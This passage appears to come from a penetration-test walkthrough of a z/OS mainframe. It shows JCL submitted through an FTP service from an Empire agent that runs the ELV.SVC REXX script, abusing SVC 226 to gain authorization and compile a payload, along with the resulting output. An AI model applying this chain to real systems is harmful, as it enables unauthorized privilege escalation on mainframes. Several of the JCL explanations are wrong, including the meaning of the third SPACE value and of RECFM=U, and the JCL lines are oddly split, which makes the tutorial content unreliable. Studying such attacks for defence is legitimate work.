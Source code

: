 Breakdown of new JCL elements:

1. Creating a PDS Dataset:

```
//PDS
DD DSN=FTPSRV.PDS(NEWMEM),DISP=(NEW,CATLG),
```

- `DD` (Data Definition): This specifies a new dataset definition.

- `DSN=FTPSRV.PDS(NEWMEM)`: This defines the dataset name (`FTPSRV.PDS`) and the member name within the dataset (`NEWMEM`).

- `DISP=(NEW,CATLG)`: This means the dataset is newly created and will be cataloged (registered) once the job completes successfully.

2. Space allocation and record format:

```
//
SPACE=(TRK,(1,1,24)),RECFM=U
```

- `SPACE=(TRK,(1,1,24))`: Allocates disk space in tracks (TRK). It requests an initial allocation of 1 track, with the possibility to extend by 1 track if needed, and specifies a maximum of 24 tracks.

- `RECFM=U`: Specifies the record format as undefined (U), meaning that the dataset can handle variable-length records without a fixed format.

3. Executing the REXX script:

```
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
ex 'FTPSRV.ELV.SVC' 'DSN=FTPSRV.PDS SVC=226'
```

- `ex 'FTPSRV.ELV.SVC'`: Executes the REXX script `ELV.SVC` located in the `FTPSRV` dataset.

- `'DSN=FTPSRV.PDS SVC=226'`: Passes parameters to the REXX script, specifying that it should use dataset `FTPSRV.PDS` and call Supervisor Call (SVC) number 226.

We execute the job again through the trusted FTP service, then fetch the output file:

```
(Empire: SalesFTP) > shell type FTPSRV.OUTPUT3.TXT
```

The output reveals the following important information:

```
ex 'FTPSRV.ELV.SVC' 'DSN=FTPSRV.PDS SVC=226'
loading into
then using SVC 226 to get AUTH
compiling WSOAMWQ in FTPSRV.PDS
READY
```

This output indicates that the ELV.SVC script successfully loaded and used SVC 226 to obtain authorization, then compiled a payload into the specified library.
